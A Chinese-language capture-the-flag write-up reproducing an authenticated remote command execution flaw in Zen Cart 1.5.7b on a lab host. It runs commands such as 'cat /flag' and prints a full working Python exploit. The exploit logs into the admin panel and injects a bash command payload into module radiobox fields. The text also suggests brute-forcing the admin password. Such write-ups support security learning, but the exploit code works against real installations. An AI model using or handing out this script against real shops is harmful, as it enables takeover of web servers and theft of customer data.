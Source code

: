 ## 1. 漏洞介绍
Zen Cart 1.5.7b 管理员通过检查HTML radiobox元素（在模块编辑页面内），通过插入命令来执行任意命令。
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-3291)
## 2. 漏洞复现
POC：[GitHub - MucahitSaratar/zencart\_auth\_rce\_poc](https://github.com/MucahitSaratar/zencart_auth_rce_poc)

找后台并以admin登录，经测试得密码为admin888【可以自己去爆破】

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021647660.png)

登录后访问下面页面【edit】，记住该图，后面要做对比

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021648404.png)

从GitHub下载 exploit.py 后做个简单修改【登录地址】，修改 `br.open(url+"login.php")` 为 `br.open(url)`，执行脚本时用下面的命令
测试
```python
python poc.py http://eci-2zeepljj7uap05we9cda.cloudeci1.ichunqiu.com/adminlogin/  admin  admin123  "pwd"
```

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021723052.png)

浏览器再次访问前面的页面，效果如下

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021724980.png)

**尝试直接获取 flag**【先重置环境，再读取 flag】，也可尝试其他操作—自由发挥……

```python
python poc.py http://eci-2zeepljj7uap05we9cda.cloudeci1.ichunqiu.com/adminlogin/  admin  admin123  "cat /flag"
```

![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021745261.png)

POC.py

```python
#!/usr/bin/python3
import mechanize as mc
import sys
import re
from bs4 import BeautifulSoup as bs
import base64 as B

try:
    url = sys.argv[1]
    assert url[-1] == "/"
    username = sys.argv[2]
    password = sys.argv[3]
    com = sys.argv[4]
except:
    print ("Usage: {sys.argv[0]} http://target.com/zencart/crackXXXXX/ username password command")
    exit(1)

moduls = ["payment","shipping","ordertotal","plugin_manager"] # default

br = mc.Browser()
br.set_handle_robots(False)
br.addheaders=[('User-agent','Chrome')]

br.open(url)

br.select_form("loginForm")
br.form["admin_name"] = username
br.form["admin_pass"] = password
send = br.submit()

mod = moduls[0]
adres = url+"index.php?cmd=modules&set="+mod
kaynak = br.open(adres).read()
adr = re.findall(b'<a href=".{150}', kaynak)
adr2 = []
for i in adr:
    if b"&amp;module=" in i and b"action=remove" not in i:
        adr2.append(i.split(b'<a href="')[1].split(b'"')[0].replace(b"&amp;",b"&").decode())

for ek in adr2:
    kaynak = br.open(ek).read()
    if b"id=\"editButton\">Edit</a>" in kaynak:
        print (f"Target url: {ek}&action=edit")
        br.open(ek+"&action=edit")
        br.select_form("modules")
        form = br.forms()[0]
        liste = b""
        for con in form.controls:
            try:
                deger = br.form.find_control(name=con.name).value
                boyut = len(deger)
                if type(deger) == list:
                    if boyut == 0 or deger[0] == "True" or deger[0] == "False":
                        liste += con.name.encode() + b"=" +  f"True','F'); echo `/bin/bash -c '{com}'`; //".encode() + b"&"
                        print("Payload injected")
                    else:
                        liste +=  con.name.encode() + b"=" + deger[0].encode() + b"&"
                else:
                    liste +=  con.name.encode() + b"=" + deger.encode() + b"&"
            except:
                pass
        print (liste[:-1])
        #br.set_proxies({"http": "localhost:5555"})
        ac = br.open(ek+"&action=save", liste[:-1])
        son = br.open(ek+"&action=edit")
        son = br.open(ek+"&action=edit")
        son = br.open(ek+"&action=edit")
        break
```
